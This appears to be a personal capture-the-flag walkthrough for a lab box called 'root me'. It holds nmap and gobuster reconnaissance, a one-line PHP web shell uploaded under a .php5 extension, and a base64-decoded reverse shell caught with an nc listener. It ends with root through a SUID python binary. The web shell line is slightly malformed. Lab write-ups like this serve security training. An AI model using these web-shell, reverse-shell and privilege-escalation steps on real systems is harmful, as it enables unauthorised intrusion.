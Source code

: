 # root me

- cyberchef
- revshell
- gtfobins

## task 1 deploy the machine
- deploy the machine
- ip = 10.10.1.253

## task 2 reconnaissance
- Scan the machine, how many ports are open? 2
    - nmap 10.10.1.253
- What version of Apache is running? 2.4.29
    - nmap -sC -sV 10.10.1.253 => untuk melihat 
- What service is running on port 22? ssh
- Find directories on the web server using the GoBuster too? /panel/
    - gobuster dir -u http://10.10.1.253/ -w ~/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt

## Task 3  Getting a shell
- Find a form to upload and get a reverse shell, and find the flag.
    - open http://10.10.1.253/panel
    - create some file with diference extension
        - make file sh.php5
            ```
            <php echo system($_GET['c']); ?>
            ```
        - open http://10.10.1.253/uploads
        - click sh.php5
        - open http://10.10.1.253/uploads/sh.php5?c=ls
        - open open http://10.10.1.253/uploads/sh.php5?c=ls -la /var/www/html/
        - open open http://10.10.1.253/uploads/sh.php5?c=cat /var/www/html/index.php | base64
    - open cyberchef
    - open revshell
        - and which nc mkfifo
        - and go cyberchef
        - setting ip and port reverse
        - and copy to base 64
        - after copy 
        - add echo base64
        - add in base64 and | base64 -d > shell.sh
    - and add in url http://10.10.1.253/uploads/sh.php5?c=echo base64 | base64 -d > shell.sh
        - ls
        - cat shell.sh
        - chmod +x shell.sh
        - chmod 777 shell.sh
    - and listen
        - nc -lvnp 9001 (copy in revshell)
    - run
        - whoami
            - which python
            - python3 -V
        - python3 -c "import pty; pty.spawn('/bin/bash')" => untuk nampilin lokasi file
        - export TERM=xterm
            - ls /home
            - cd /home
            - ls -la
            - cd rootme
            - ls -la
        - user.txt
            - cd /var/www
            - ls -la
            - cat user.txt
    - user.txt
- 

## Task 4  Privilege escalation
- Search for files with SUID permission, which file is weird?
    - ctrl z
    - stty raw -echo;fg;
        - reset
    - find / -perm /4000 2>dev/null
        - /usr/bin/python
    - open gtfobins
        - find python SUID and copy python
- Find a form to escalate your privileges.
    -
- root.txt
    - cd /root
        - ls -la
        - cat root.txt

# hands on lab
- nmap -sC -sV 10.10.1.253 => untuk melihat 
- gobuster dir -u http://10.10.1.253/ -w ~/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt 
- http://10.10.1.253/uploads
- http://10.10.1.253/css
- http://10.10.1.253/js
- http://10.10.1.253/panel
- http://10.10.1.253/server-status